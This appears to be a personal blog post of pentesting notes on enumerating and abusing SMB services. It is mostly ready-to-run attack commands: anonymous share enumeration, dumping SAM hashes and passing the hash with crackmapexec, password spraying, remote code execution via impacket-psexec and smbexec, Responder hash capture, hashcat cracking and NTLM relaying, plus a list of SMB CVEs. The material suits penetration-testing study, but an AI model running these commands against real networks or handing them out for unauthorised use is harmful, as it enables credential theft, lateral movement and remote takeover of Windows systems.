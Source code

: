 ```yaml
---
date: '2023-03-29'
before : '2023-03-27'
after : '2023-04-01'
title: 'Enumerating & Abusing SMB'
categories: ['C-SEC', 'ENG', 'Network']
summary: 'Enumerating & Abusing SMB Service'
thumbnail: '../contentImages/network/2.png'
---
```



## 1. Information about SMB

- Normally TCP port 137,138,139 or 445(windows)
- In windows commonly MSRPC
- Typical Misconfiguration : anonymous authentication

```bash
smbclient -N -L //10.129.14.128 : anonymous
```

## 2. Interaction, Enumeration

```bash
smbmap -H 10.129.14.128 -r notes : show the folder notes
smbmap -H 10.129.14.128 --download "notes\note.txt" : download something
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt" : upload something
```

```bash
rpcclient -U'%' 10.10.110.17
```

- SMB Interaction Cheat Sheet
    
    [](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
    
- Enum4linux

```bash
./enum4linux-ng.py 10.10.11.45 -A -C
```

- Extracting Hashes /PtH

```bash
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## 3. Brute Forcing

```bash
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' : password spraying
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users 
```

## 4. Remote Code Execution

```bash
impacket-psexec administrator:'Password123!'@10.10.110.17
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

## 5. Forced Authentication with Responder

### What is Responder?

Responder is a powerful open-source tool used for performing network analysis and attacks on Microsoft Windows-based systems.

Responder works by listening to traffic on the network and responding to various types of network traffic to capture authentication credentials.

To use Responder, you need to first download and install it on a computer that is connected to the network you wish to analyze.

### Process

used by attackers who have already gained access to a network and are attempting to move laterally to other system

1. Install Responder on target System
- The hostname file share's IP address is required
- The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
- If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names
- Is there no local DNS record? A query will be sent to the DNS server that has been configured.
1. Execute Responder

```bash
sudo responder -I ens33
```

1. Crack captured Hashes

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

1. Pass the Hash or NLTM Replay

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

## 6. Common CVE

- CVE-2017-0143 (SMBv1)
- CVE-2020-0796 (SMBv3)
- CVE-2017-0144 (SMBv1)
- CVE-2018-0802 (connected with MS Word, Exel and Outlook)
- CVE-2019-0708 (BlueKeep)
- Eternal Blue (based on buffer overflow)

## Source

- Me!
